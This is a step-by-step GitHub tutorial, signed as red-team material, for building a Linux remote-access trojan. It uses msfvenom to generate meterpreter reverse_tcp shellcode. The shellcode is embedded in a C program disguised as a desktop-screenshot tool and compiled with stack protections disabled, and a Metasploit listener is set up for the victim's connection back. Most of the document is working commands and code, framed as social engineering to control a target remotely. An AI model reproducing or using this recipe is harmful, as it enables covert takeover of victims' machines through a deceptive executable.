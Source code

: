 #### :: SHELLCODE DESCRIPTION (Wikipedia)
In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode. Because the function of a payload is not limited to merely spawning a shell, some have suggested that the name shellcode is insufficient. However, attempts at replacing the term have not gained wide acceptance. Shellcode is commonly written in machine code. 

---

<br />

#### :: EXERCISE OBJECTIVES
Use Metasploit to build shellcode in C format and Insert the C shellcode into a C program (RAT)<br />
To be abble to control of a linux system remotely using social engineering.

<br />

#### :: STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### :: [SOCIAL ENGINEERING](https://en.wikipedia.org/wiki/Social_engineering_(security))
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also executes a system command (sh) that takes a screenshot of the target PC desktop using<br />
[MITRE ATT&CK T1113](https://attack.mitre.org/techniques/T1113/) (xwd package) Technic. **'(Screenshot Function Inside the C Program)'**:<br />

    system("sleep 1; xwd -root -out /tmp/ScreenShot.xwd");

<br />

#### :: MULTI-THREADING (simultaneously -> display screenshot + exec shellcode)
Its achieved using the bash & operator that backgrounds the current system call (display screenshot)<br />
while jumping to the next C function (execute shellcode in RAM). **'(Multi-Thread Inside the C Program)'**:<br />

    system("sleep 1; xwud -in /tmp/ScreenShot.xwd &");
    void (*ret)() = (void(*)())buf;


<br /><br />

| DEPENDENCIE | DESCRIPTION | FUNCTION | REQUIRED |
|---|---|---|---|
| Metasploit | Metasploit Framework | Build Shellcode + Recive Connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | C Compiler | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | X Window Screenshots | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

### :: STEP-BY-STEP (HOW-TO)
Execute all the follow commands sequencialy into your terminal windows<br />
All Commands required to acomplish this exercise are inside the grey box(s).<br />
This exercise its written this way to allow readers to work only in terminal windows.<br />

<br /><br />

#### :: Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

![pic](http://i63.tinypic.com/2dl9pop.png)

<br />

#### :: Start postgresql service

```
sudo service postgresql start
```

![pic](http://i63.tinypic.com/2eoikbo.png)

<br />

#### :: Use Metasploit to Build Shellcode in C Format
WARNING: Replace LHOST value by your local ip address<br />
WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64<br />

```
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -b '\x00' -a x86 --platform linux -f c -o chars.raw

```

![pic](http://i64.tinypic.com/muk5xu.png)

- **'Msfvenom Syntax'**
  - -p payload name
  - -b delete nul bites from shellcode **\x00**
  - -a payload arch
  - -f shellcode format
  - -o write output to a file 

<br />

#### :: See whats written inside chars.raw (optional)

```
cat chars.raw
```

![pic](http://i66.tinypic.com/i6xzyw.png)

<br />

#### [Parse](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/bash/parsing_data_in_bash.md) shellcode data and store it into a local bash variable

```
pa=$(cat chars.raw | grep -v "=" | tr -d '";' | tr -d '\n' | tr -d ' ')
```

![pic](http://i65.tinypic.com/2090m12.png)

The shellcode data its now stored inside a bash local variable named **$pa**<br />
This variable its going to be used to embebbed the shellcode in to C Program while we<br />
are creating it using the follow commands described in the next grey box.<br />

<br />

#### :: Insert the C shellcode created into a C program

```
echo "#include<stdio.h>" > payload.c
echo "#include<stdlib.h>" >> payload.c
echo "#include<string.h>" >> payload.c
echo "" >> payload.c
echo "unsigned char buf[] = \"$pa\";" >> payload.c
echo "" >> payload.c
echo "int main()" >> payload.c
echo "{" >> payload.c
echo "  printf(\"\\nPlease Wait, Taking Screenshot ..\n....................................\", strlen(buf));" >> payload.c
echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
echo "  system(\"sleep 1; xwud -in /tmp/ScreenShot.xwd &\");" >> payload.c
echo "  void (*ret)() = (void(*)())buf;" >> payload.c
echo "  ret();" >> payload.c
echo "}" >> payload.c
```

![pic](http://i67.tinypic.com/309rd74.png)

<br />

#### :: See whats written inside payload.c (optional)

```
cat payload.c
```

![pic](http://i68.tinypic.com/24y1ojb.png)

<br />

#### :: Use GCC to compile the C program (make it executable)

```
sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

![pic](http://i68.tinypic.com/15klg4.png)

<br />

#### :: Start metasploit multi handler
WARNING: Replace LHOST value by your local ip address<br />
WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64<br />

```
sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

![pic](http://i68.tinypic.com/15wlyxs.png)

<br />

#### :: Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

![pic](http://i67.tinypic.com/16h9sax.png)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

<br />

#### :: Video Tutorial

[C Shellcode Linux - Video Tutorial](https://blablabla.)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


